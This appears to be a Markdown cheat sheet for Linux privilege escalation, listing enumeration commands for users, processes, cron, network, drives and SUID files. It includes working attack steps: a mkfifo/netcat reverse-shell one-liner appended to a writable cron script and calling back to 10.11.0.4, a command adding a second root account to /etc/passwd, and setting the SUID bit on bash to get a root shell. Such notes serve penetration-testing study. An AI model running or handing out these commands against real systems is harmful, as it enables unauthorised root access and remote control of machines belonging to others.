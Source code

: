 # Linux privilege escalation  

Find out what user is currently logged in.  

`whoami`  

Find user context.  

`id`  

Find information from the hostname.  

`hostname`  

os version information.  

```
cat /etc/*-release
uname -a
```  

List processes, a and x with/without TTY and u for readable output.  

`ps aux`  

And in a tree format.  

`ps aux --forest`

## cron  

List cron.  

`ls -lah /etc/cron*`  

System cron jobs usually running as root.  

`cat /etc/crontab`  


To view running jobs in the cron log.  

`grep "CRON" /var/log/cron.log`  

If a writable script(user_backups.sh) is found as a cronjob, a reverse shell one liner can be appended.  

```
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
```  

## /etc/passwd  

If /etc/passwd is writable, another root user can be added.  

```
openssl passwd somepassword1
echo "root2:<somepassword1 hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```  

## bash  

If we can execute a command as root.  

```
chmod +s /usr/bin/bash
/usr/bin/bash -p
```  

## Kernel vulns  

Gathering info.  

To display message of login prompt.  

`cat /etc/issue`  

Kernel version.  

`uname -r`  

Architecture.  

`arch`  

## Network  

Display all network information.  

`ip a`  

`ifconfig a`  

Display route tables, depending on linux flavour/version.  

`/sbin/route`  

`/sbin/routel`  

List all connections, 'a' = all, 'n' = no dns, 'p' = print owning process.  

`ss -anp`  

Firewall rules as root user.  

`iptables`  

Some firewall rules can be found as a standard user.  

`/etc/iptables`  

## Applications  

View installed applications.  

`dpkg -l`  

## File permissions  

Using the find command.  

`find / -writable -type d 2>/dev/null`  

## Drives  

View mounted drives.  

`mount`  

`cat /etc/fstab`  

View all available disks.  

`/bin/lsblk`  

## Kernel modules  

Display kernel modules.  

`lsmod`  

Find information about a specific module.  

`/sbin/modinfo libata`  

## SUID  

Find SUID bits.  

`find / -perm -u=s -type f 2>/dev/null`  

